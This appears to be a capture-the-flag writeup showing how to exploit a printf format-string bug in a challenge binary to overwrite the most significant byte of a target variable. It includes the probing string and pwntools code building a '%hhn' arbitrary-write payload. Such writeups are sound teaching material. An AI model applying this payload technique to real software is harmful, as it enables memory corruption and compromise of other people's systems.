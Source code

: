 # Challenge `Write Specific Byte` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to write in arbitrary memory

## Steps to Reproduce

Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To get the address of the `target` variable we use:
```py
elf = ELF("05_write_specific_byte")
target_address = elf.symbols['target']
```

This time, we must write to the most significant byte of the target variable. Knowing that the address of the target variable points to the least significant byte, we can write the address of the target variable plus 3 to the 7th register and then use the `%n` specifier to write any value.

```py
io = connect(HOST, PORT)
payload = p32(target_address + 3) + b"%254x%7$hhn"
io.sendline(payload)
```

## Implementation

Implementation [here](write-specific-byte.py).